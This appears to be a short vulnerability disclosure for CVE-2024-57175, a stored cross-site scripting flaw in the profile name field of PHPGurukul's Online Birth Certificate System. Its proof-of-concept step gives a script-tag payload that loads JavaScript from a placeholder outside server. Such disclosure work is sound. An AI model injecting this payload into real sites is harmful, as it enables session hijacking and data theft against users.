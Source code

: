 CVE-2024-57175: Stored Cross-Site Scripting (XSS) in PHPGURUKUL Online Birth Certificate System v1.0  

### Description  
A stored Cross-Site Scripting (XSS) vulnerability was identified in PHPGURUKUL Online Birth Certificate System v1.0 in the /user/certificate-form.php page. This vulnerability allows authenticated users to inject malicious XSS scripts into the profile name field, which can lead to code execution on the client side.  

### Steps to Reproduce (PoC)  
1. Navigate to the vulnerable URL as an authenticated user: /user/certificate-form.php.  
2. Modify the profile name with an XSS payload, for example:  
   html
   "><script src="https://severurl"></script>
     

### Impact  
Successful exploitation may allow attackers to execute arbitrary JavaScript on the client side, potentially leading to data theft, session hijacking, or other malicious actions.  

### Credits  
Discovered by Ajmal, January 2025.


###referance
https://github.com/Ajmal101/CVE-2024-57175.git
